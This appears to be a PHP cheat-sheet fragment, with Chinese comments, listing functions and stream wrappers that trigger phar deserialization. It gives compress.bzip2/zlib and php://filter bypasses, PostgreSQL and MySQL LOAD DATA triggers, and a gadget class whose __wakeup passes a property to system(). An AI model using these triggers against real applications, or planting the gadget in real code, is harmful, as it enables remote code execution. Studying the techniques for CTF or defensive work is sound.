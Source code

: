 ```php
hash_update_file
md5_file
sha1_file
    
// file/url
get_meta_tags
get_headers
    
//standard 
getimagesize
getimagesizefromstring
    
// zip   
$zip = new ZipArchive();
$res = $zip->open('c.zip');
$zip->extractTo('phar://test.phar/test');
// Bzip / Gzip 当环境限制了phar不能出现在前面的字符里。可以使用compress.bzip2://和compress.zlib://绕过
$z = 'compress.bzip2://phar:///home/sx/test.phar/test.txt';
$z = 'compress.zlib://phar:///home/sx/test.phar/test.txt';

//配合其他协议：(SUCTF)
//https://www.xctf.org.cn/library/details/17e9b70557d94b168c3e5d1e7d4ce78f475de26d/
//当环境限制了phar不能出现在前面的字符里，还可以配合其他协议进行利用。
//php://filter/read=convert.base64-encode/resource=phar://phar.phar

//Postgres pgsqlCopyToFile和pg_trace同样也是能使用的，需要开启phar的写功能。
<?php
	$pdo = new PDO(sprintf("pgsql:host=%s;dbname=%s;user=%s;password=%s", "127.0.0.1", "postgres", "sx", "123456"));
	@$pdo->pgsqlCopyFromFile('aa', 'phar://phar.phar/aa');
?>
    
// Mysql
//LOAD DATA LOCAL INFILE也会触发这个php_stream_open_wrapper
//配置一下mysqld:
//[mysqld]
//local-infile=1
//secure_file_priv=""
    
<?php
class A {
    public $s = '';
    public function __wakeup () {
        system($this->s);
    }
}
$m = mysqli_init();
mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
$s = mysqli_real_connect($m, 'localhost', 'root', 'root', 'testtable', 3306);
$p = mysqli_query($m, 'LOAD DATA LOCAL INFILE \'phar://test.phar/test\' INTO TABLE a  LINES TERMINATED BY \'\r\n\'  IGNORE 1 LINES;');
?>
```
